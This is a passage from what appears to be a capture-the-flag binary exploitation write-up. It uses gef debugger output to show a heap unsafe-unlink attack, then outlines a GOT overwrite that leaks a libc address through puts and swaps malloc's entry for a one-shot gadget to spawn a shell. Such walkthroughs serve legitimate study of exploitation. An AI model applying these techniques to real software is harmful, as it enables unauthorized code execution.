 So we can see our fake chunk and heap metadata overflow just like we planned. This should write the pointer `0x602148` to `0x602160` since `0x602148` is the `fd` pointer and `bk->fd = fd` happens in malloc.c. After the unlink, we can see that the write worked:

```
gef➤  x/10g 0x602140
0x602140: 0x0 0x14fc020
0x602150: 0x14fc4e0 0x14fc590
0x602160: 0x602148  0x14fc6f0
0x602170: 0x14fc7a0 0x0
0x602180: 0x0 0x0
gef➤  heap bins
[+] No Tcache in this version of libc
───────────────────────────────────────────────────────────────────────────────── Fastbins for arena 0x7f030751bb20 ─────────────────────────────────────────────────────────────────────────────────
Fastbins[idx=0, size=0x10] 0x00
Fastbins[idx=1, size=0x20] 0x00
Fastbins[idx=2, size=0x30] 0x00
Fastbins[idx=3, size=0x40] 0x00
Fastbins[idx=4, size=0x50] 0x00
Fastbins[idx=5, size=0x60] 0x00
Fastbins[idx=6, size=0x70] 0x00
───────────────────────────────────────────────────────────────────────────── Unsorted Bin for arena '*0x7f030751bb20' ─────────────────────────────────────────────────────────────────────────────
[+] unsorted_bins[0]: fw=0x14fc640, bk=0x14fc640
 →   Chunk(addr=0x14fc650, size=0x150, flags=PREV_INUSE)
[+] Found 1 chunks in unsorted bin.
────────────────────────────────────────────────────────────────────────────── Small Bins for arena '*0x7f030751bb20' ──────────────────────────────────────────────────────────────────────────────
[+] Found 0 chunks in 0 small non-empty bins.
────────────────────────────────────────────────────────────────────────────── Large Bins for arena '*0x7f030751bb20' ──────────────────────────────────────────────────────────────────────────────
[+] Found 0 chunks in 0 large non-empty bins.
```

So we can see that the unlink attack worked and we were able to write the pointer `0x602148` to `0x602160`. So we essentially wrote a pointer to the array at offset `+0x8` to itself. This is extremely helpful since that pointer is in a spot that we can write to it, and we can essentially overwrite pointers in the array, then write to those new pointers (we will use that for the GOT overwrite). We can see that the fake chunk we unlinked ended up in the unsorted bin. It's important that we allocate a chunk big enough that it doesn't end up in the fast bin, because that would cause this attack not to work.

### GOT Overwrite / Infoleak

So now that we have a pointer to the array of pointers that we can write to, the rest is going to be pretty simple and stuff we've already covered. We will write the got address of `strlen` (`strlen` is really convenient since it is only called in one spot that fits perfectly for this) to `0x602148` and the got address of `malloc` to `0x602150` (we will be overwriting both the values stored at both of these addresses). We will overwrite the got address of `strlen` with plt address of `puts` (since it is imported). That way when we call `printData` it will actually print the data of the chunk. Then we will call `printData` with and index of `2` (maps to `0x602150`) so it will leak the libc address of malloc to us. After that, we can just overwrite the got entry of malloc with a oneshot gadget (which we know thanks to the libc infoleak), and then just call malloc to get a shell. Here is a walkthrough on how the memory is corrupted:
